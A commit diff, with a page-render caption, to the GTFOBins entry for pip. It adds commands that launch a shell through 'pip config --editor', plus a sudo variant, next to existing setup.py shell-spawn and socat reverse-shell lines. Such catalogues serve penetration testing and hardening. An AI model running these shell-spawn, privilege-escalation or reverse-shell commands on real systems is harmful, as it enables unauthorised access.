

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pip.md, in a window 1280 px wide and 900 px high, scrolled down 1804 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2510 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Include pip config --editor option which allows execution of arbitrary files

```diff
--- a/_gtfobins/pip.md
+++ b/_gtfobins/pip.md
@@ -5,6 +5,10 @@ functions:
         TF=$(mktemp -d)
         echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         pip install $TF
+    - code: |
+         TF=$(mktemp -d)
+         printf '#!/bin/bash\n/bin/bash' > $TF/pwn.sh && chmod +x $TF/pwn.sh
+         pip config --editor $TF/pwn.sh edit
   reverse-shell:
     - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
       code: |
@@ -70,4 +74,8 @@ functions:
         TF=$(mktemp -d)
         echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         sudo pip install $TF
+    - code: |
+         TF=$(mktemp -d)
+         printf '#!/bin/bash\n/bin/bash' > $TF/pwn.sh && chmod +x $TF/pwn.sh
+         sudo pip config --editor $TF/pwn.sh edit
 ---
```
